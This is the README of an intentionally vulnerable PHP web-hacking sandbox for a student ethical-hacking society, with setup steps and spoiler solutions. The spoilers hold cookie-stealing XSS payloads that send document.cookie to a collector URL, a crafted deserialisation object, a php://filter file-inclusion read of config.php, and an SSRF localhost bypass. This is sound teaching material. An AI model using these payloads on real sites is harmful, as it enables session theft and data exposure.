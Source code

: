# Web-Hacking-Demo
A web application hacking sandbox challenge for [Sheffield Ethical Student Hackers](https://shefesh.com). Covering insecure deserialisation, SSRF, XSS, and more

## Setup

### Manually

This works on an Ubuntu 20.04 EC2 image.

Install mysql:

```
sudo apt-get update
sudo apt install -y mysql-server php-mysql php7.4 apache2
```

Start service:
```
sudo systemctl start mysql.service
```

Configure:
```
sudo mysql
> CREATE USER 'sesh'@'localhost' IDENTIFIED BY 'SESHPassword123!';
> CREATE DATABASE challenge;
> GRANT ALL PRIVILEGES ON challenge.* TO 'sesh'@'localhost' WITH GRANT OPTION;
> FLUSH PRIVILEGES;
> exit
```

Clone repository:

```
git clone https://github.com/Twigonometry/Web-Hacking-Demo.git
```

Seed:

```
mysql -u sesh -p < seed.sql
```

Copy files to apache directory:

```
cd Web-Hacking-Demo/
sudo cp -r * /var/www/html
```

Add password:

```
sudo htpasswd -b -c /etc/apache2/.htpasswd sesh SESHWebHackingPassword123
sudo cp apache2.conf /etc/apache2/apache2.conf
```

Restart apache:

```
sudo service apache2 restart
```

### With Docker

**NOTE**: The Dockerfile does not work, as the `mysqli_connect()` function does not run. This is a work in progress.

On EC2:

```
sudo yum update -y
sudo amazon-linux-extras install docker
sudo yum install docker
sudo service docker start
sudo systemctl enable docker
sudo usermod -a -G docker ec2-user
```

Restart session, then run:

```
sudo yum install git
git clone git@github.com:Twigonometry/Web-Hacking-Demo.git
cd Web-Hacking-Demo/
docker build -t web-hacking-demo .
docker run -dp 80:80 web-hacking-demo
```

To get a shell: `docker ps` for container id, then `docker exec -it [ID] /bin/sh`

## Login

Login to admin page:

`sesh_admin`:`mylongpassword123?`

## Exploit XSS

The `/reviews` page allows posting reviews. Click one of the sublinks to render the reviews using different levels of user input sanitisation, and see if you can steal an admin cookie.

NOTE: you will need to login as an admin and visit the reviews page in a new browser session (try an incognito tab) and refresh the page after you submit your XSS payload for this to work.

<details>

<summary>Spoilers</summary>

For the unsanitised version, you can create an XHR or fetch request to steal a cookie:

`<script>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</script>`

For the sanitised version, script and iframe tags are removed. You can use uppercase SCRIPT tags:

`<SCRIPT>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</SCRIPT>`

Or use an img:

`<img src=x onerror="this.src='http://localhost:8001/?'+document.cookie; this.removeAttribute('onerror');">`

</details>

## Exploit Deserialisation

The Recipes section has a deserialisation vulnerability that allows reading a secret recipe that would normally be encrypted. This challenge was repurposed from last year's CTF.

<details>

<summary>Spoilers</summary>

Read the source code for the `get-recipe.php` and `create-recipe.php` files using the LFI in the first form field (submit `../get-recipe.php` etc).

This shows us how to submit a new secret recipe: `http://[URL]/create-recipe.php?recipe_recipe=O:12:%22SecretRecipe%22:4:{s:9:%22encrypted%22;b:0;s:5:%22title%22;s:4:%22Test%22;s:8:%22contents%22;s:4:%22Test%22;s:2:%22id%22;i:1;}`

This string defines a serialised `SecretRecipe` instance that references the secret recipe we want to steal from the database, but sets `encrypted` to false.

We can then use the ID given to us by the application and submit it to the "Construct Recipe from String in Database" field, where it is deserialised: `http://localhost:8000/get-recipe.php?recipe=&id=&string_id=[ID]`.

</details>

## Exploit File Inclusion

There is a file inclusion vulnerability on `/recipe-hash`

<details>

<summary>Spoilers</summary>

The `recipe-hash.php` file has an `include` statement that includes the contents of the `?hash=` parameter.

To read the config file:

`http://[URL]/recipe-hash.php?hash_input=hello&hash=php://filter/convert.base64-encode/resource=config.php`

</details>

## Exploit Server-Side Request Forgery (SSRF)

Try to use `/page-viewer.php` to view the `/local-only.php` page.

<details>

<summary>Spoilers</summary>

There is an SSRF on `/page-viewer.php` which has a badly implemented filter.

The phrases `127.0.0.1` and `localhost` are blocked, but an alternative can be used such as `127.1`:

`http://127.1:8000/local-only.php`

</details>
